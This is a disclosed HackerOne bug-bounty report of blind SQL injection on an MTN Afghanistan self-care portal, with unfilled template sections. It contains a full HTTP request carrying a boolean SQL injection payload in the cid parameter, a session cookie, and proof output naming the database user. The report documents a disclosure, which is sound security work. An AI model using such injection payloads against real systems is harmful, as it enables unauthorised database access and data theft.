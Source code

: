 # blind sql on [selfcare.mtn.com.af]

## Report Details
- **Report ID**: 925007
- **URL**: https://hackerone.com/reports/925007
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-07-16T07:47:21.766Z
- **Disclosed**: 2021-09-09T11:39:31.178Z

## Reporter
- **Username**: pisarenko
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mtn_group

## Vulnerability Information
## Summary:
[add summary of the vulnerability]

## Steps To Reproduce:
[add details for how we can reproduce the issue]

get cid = sql 

SQL query - SELECT user FROM dual
CON_APP_MTNA

HTTP Request

`GET /selfcare/HomePageDisplay?cid=26%20AND%203*2*1=6%20AND%20498=498&location=MTNA HTTP/1.1
X-Requested-With: XMLHttpRequest
Referer: https://selfcare.mtn.com.af:8083/selfcare/appmanager/selfcare/login
Cookie: JSESSIONID=QZyyfPfpfWGsWJZP9fXGGPxJQpnpP5Lz9BgDvTr5HpZkkQGqvLL2!1814712056;TrackedProfileId=YW5vbnltb3VzXzkzNDEyOEtYK04zb2V3SDlkcmFRdCtHNWwydVE9PQ==
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate
Host: selfcare.mtn.com.af:8083
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36
Connection: Keep-alive`

## Impact

sql

Proof of Exploit
SQL query - SELECT user FROM dual
CON_APP_MTNA

## Attachments
No attachments
